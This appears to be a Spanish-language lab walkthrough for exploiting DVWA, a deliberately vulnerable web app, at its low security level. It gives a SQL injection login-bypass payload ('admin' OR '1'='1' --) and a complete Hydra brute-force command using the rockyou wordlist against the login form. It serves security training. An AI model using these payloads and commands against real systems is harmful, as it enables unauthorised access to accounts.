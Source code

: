 
# Explotación Nivel Bajo DVWA

## 1. SQL Injection (Bypass Login)

**Payload:** `admin' OR '1'='1' --`

**Ejecución:** Ingresar en campo `username`, dejar `password` vacío.

**Resultado:** Acceso como `admin` sin contraseña.

<img src="../../assets/BruteForceLow01.png">

## 2. Fuerza Bruta

### 2.1. Hydra

**Comando:**
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP_SERVIDOR> http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=<TU_SESION>;security=low:F=Username and/or password incorrect."
```

<img src="../../assets/BruteForceLow02.png">

Nota: Reemplazar <IP_SERVIDOR> y <TU_SESION>.

Resultado: Contraseña de admin.
=======
